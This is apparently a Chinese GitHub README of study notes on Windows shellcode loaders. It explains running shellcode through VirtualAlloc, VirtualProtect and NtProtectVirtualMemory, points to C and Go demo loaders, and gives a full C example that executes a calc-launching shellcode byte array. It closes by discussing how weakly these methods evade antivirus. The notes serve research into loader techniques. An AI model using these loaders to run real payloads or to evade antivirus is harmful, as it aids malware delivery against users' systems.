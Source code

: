 # Shellcode-Loader

## 基本原理

shellcode 是位置无关代码所以只要给他EIP就能够开始运行。

在低版本Windows中的会利用堆栈溢出执行ShellCode或者直接将函数指针指向shellcode数据段。例如：

```cpp
#include <stdio.h>
unsigned char shellcode[] =
        "\x33\xC9\x64\x8B\x59\x30\x8B\x5B\x0C\x8B\x73\x14\xAD\x96\xAD\x8B"
        "\x58\x10\x8B\x53\x3C\x03\xD3\x8B\x52\x78\x03\xD3\x8B\x72\x20\x03"
        "\xF3\x33\xC9\x41\xAD\x03\xC3\x81\x38\x57\x69\x6E\x45\x75\xF4\x49"
        "\x8B\x72\x24\x03\xF3\x66\x8B\x0C\x4E\x8B\x72\x1C\x03\xF3\x8B\x14"
        "\x8E\x03\xD3\x33\xC0\x52\x50\x68\x2E\x65\x78\x65\x68\x63\x61\x6C"
        "\x63\x68\x6D\x33\x32\x5C\x68\x79\x73\x74\x65\x68\x77\x73\x5C\x53"
        "\x68\x69\x6E\x64\x6F\x68\x43\x3A\x5C\x57\x8B\xF4\x6A\x0A\x56\xFF"
        "\xD2\x83\xC4\x1C\x58\x5A";

int main()
{   
    // void (*)()   指向不带参数的 void 函数的指针
    // 类型转换 (void (*)()) shellcode
    ((void (*)())shellcode)();
    return 0;
}
```

但从 Windows XP 和 Windows Server 2003 开始，内置于操作系统中的系统级内存保护功能 `DEP(Data Execution Prevention)`，DEP 阻止从数据页（例如默认堆、堆栈和内存池）运行代码。

所以常见运行 shellcode 的核心思路为以下几种：

- 用 `VirtualAlloc` 类似的函数分配一个具有可执行权限内存空间
- 用 `VirtualProtect` 函数修改 shellcode 所在内存空间的访问权限（RWE）

除此之外还有`ntdll`的非导出函数`Nt(Zw)ProtectVirtualMemory/Nt(Zw)AllocateVirtualMemory`，是上文两个函数在R3的最底层，多了个process handle参数，R3下的`Nt*`和`Zw*`没区别...

## 整理常见的加载 shellcode 方式

用 C/C++ 编写的 Demo 环境均为 `win10 + vs2019`： 

- [0x00.c](./cpp_demos/0x00.c) 
  
  VirtualAlloc 申请读写执行的内存，memcpy 拷贝code，转换为函数指针执行。

- [0x01.c](./cpp_demos/0x01.c)
  
  和[0x00.c](./cpp_demos/0x00.c)一样，不过是新定义了函数指针： `typedef void(_stdcall *CODE)();`

- [0x02.c](./cpp_demos/0x02.c)

  VirtualAlloc 申请RW内存，拷贝code后用VirtualProtect添加执行权限再利用线程执行。

**内嵌汇编：**

- [0x03.c](./cpp_demos/0x03.c)

  VirtualProtect 添加执行权限后用汇编指令 `jmp shellcode`

- [0x04.c](./cpp_demos/0x04.c)

  设置 .data 区块属性为`RWE`，直接用汇编指令 `jmp shellcode`

- [0x05.c](./cpp_demos/0x05.c)

   和[0x04.c](./cpp_demos/0x04.c)一样，用一些花指令替换了`jmp`指令


---

用 golang 写 ShellcodeLoader 前先学习下 golang 中指针的知识：

golang 中的指针及与指针对指针的操作主要有以下三种：
1. 普通的指针类型，例如 var intptr *T，定义一个T类型指针变量
2. 内置类型 uintptr，本质是一个无符号的整型，它的长度是跟平台相关的，可以用来保存一个指针地址
3. unsafe包提供的Pointer，表示可以指向任意类型的指针

各举一个例子🌰：

1. **普通指针可以通过引用来修改变量的值：**
```golang
...
func intTest(c *int) {
	*c++
}

func main() {
	count := 1
	fmt.Println(&count) // 0xc0000140c8
	intTest(&count)
	fmt.Println(count)  // 2
}
```
2. **指针操作 uintptr ：**

一个`uintptr`可以被转换成`unsafe.Pointer`,同时`unsafe.Pointer`也可以被转换为`uintptr`。可以使用使用`uintptr+offset`计算出地址，然后使用`unsafe.Pointer`进行转换，格式如下：`p = unsafe.Pointer(uintptr(p) + offset)`

```golang
func main(){
  buf := []byte{1, 2, 3, 4}
  // buf 数据的基地址，以下两种方式是等效的：
  // 1. &buf[0]
  // 2. (*reflect.SliceHeader)(unsafe.Pointer(&buf)).Data
  base := uintptr(unsafe.Pointer(&buf[0]))
  for i := 0; i < len(buf); i++ {
    fmt.Printf("%#v\n", *(*byte)(unsafe.Pointer(base + uintptr(i))))
  }
}
```

3. **unsafe.Pointer：**

`unsafe.Pointer`主要是用来进行桥接，用于不同类型的指针进行互相转换，

```golang
...
type Person struct {
    age int
    name string
}
func main() {
  p := &Person{age: 30, name: "Bob"}
  pname := unsafe.Pointer(uintptr(unsafe.Pointer(p)) + unsafe.Offsetof(p.name))
  fmt.Println(*(*string)(pname))
}
```
--- 

[golang_demos](./golang_demos) 和上面 c/c++ 的套路基本一样：
- [0x00.go](./golang_demos/0x00/0x00.go) 
- [0x01.go](./golang_demos/0x00/0x01.go) 
  
  要注意的 ZwProtectVirtualMemory 函数的参数 `BaseAddress` 是指向基地地址的指针(Pointer to base address to protect)
- [0x02.go](./golang_demos/0x00/0x02.go) 


## 总结

虽然目前只是为了研究下 shellcode loader 原理以及 windows api，但是发现上面这些运行 shellcode 的方式 bypassAV 能力都很弱。关键点为了编写位置无关代码就一定要先获取到 `ntdll.dll` 或者 `kernel32.dll` 的基地址，就会存在明显的特征指令。要么就是在动态运行时要通过关键函数 `VirtualAlloc`、 `VirtualProtect`等，搞到一块有执行权限的内存，这些关键函数都被 hook 时也很容易被检测出来，我觉得 bypass AV 第一步就是要解决上面两个问题...

## 贴心小公举

整理一些常量函数签名以便查阅：

```cpp
#define MEM_COMMIT              0x00001000
#define MEM_RESERVE             0x00002000
#define MEM_RESET               0x00080000
#define MEM_RESET_UNDO          0x1000000

#define PAGE_NOACCESS           0x01
#define PAGE_READONLY           0x02
#define PAGE_READWRITE          0x04
#define PAGE_WRITECOPY          0x08
#define PAGE_EXECUTE            0x10
#define PAGE_EXECUTE_READ       0x20
#define PAGE_EXECUTE_READWRITE  0x40
#define PAGE_EXECUTE_WRITECOPY  0x80

// https://docs.microsoft.com/zh-cn/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc
LPVOID VirtualAlloc(
  LPVOID lpAddress,
  SIZE_T dwSize,
  DWORD  flAllocationType,
  DWORD  flProtect
);

// https://docs.microsoft.com/zh-cn/windows/win32/api/memoryapi/nf-memoryapi-virtualprotect
BOOL VirtualProtect(
  LPVOID lpAddress,
  SIZE_T dwSize,
  DWORD  flNewProtect,
  PDWORD lpflOldProtect
);

// http://undocumented.ntinternals.net/index.html?page=UserMode%2FUndocumented%20Functions%2FMemory%20Management%2FVirtual%20Memory%2FNtProtectVirtualMemory.html

NtAllocateVirtualMemory(
  IN HANDLE               ProcessHandle,
  IN OUT PVOID            *BaseAddress,
  IN ULONG                ZeroBits,
  IN OUT PULONG           RegionSize,
  IN ULONG                AllocationType,
  IN ULONG                Protect 
);

// http://undocumented.ntinternals.net/index.html?page=UserMode%2FUndocumented%20Functions%2FMemory%20Management%2FVirtual%20Memory%2FNtProtectVirtualMemory.html
NtProtectVirtualMemory(
  IN HANDLE               ProcessHandle,
  IN OUT PVOID            *BaseAddress,
  IN OUT PULONG           NumberOfBytesToProtect,
  IN ULONG                NewAccessProtection,
  OUT PULONG              OldAccessProtection 
);
```

# res
- https://docs.microsoft.com/en-us/windows/win32/memory/
- https://www.ascotbe.com/2020/03/07/Basics/
- [Windows下32位进程内存模型](http://www.xumenger.com/01-windows-process-memory-20170101/)
- [Golang-unsafe.Pointer和uintptr](https://studygolang.com/articles/33151)
- https://iv4n.cc/go-shellcode-loader/

这些还没来得及看：
- https://github.com/Ne0nd0g/go-shellcode
- https://github.com/Binject/shellcode
- https://paper.seebug.org/1413/
- https://zhuanlan.zhihu.com/p/26012567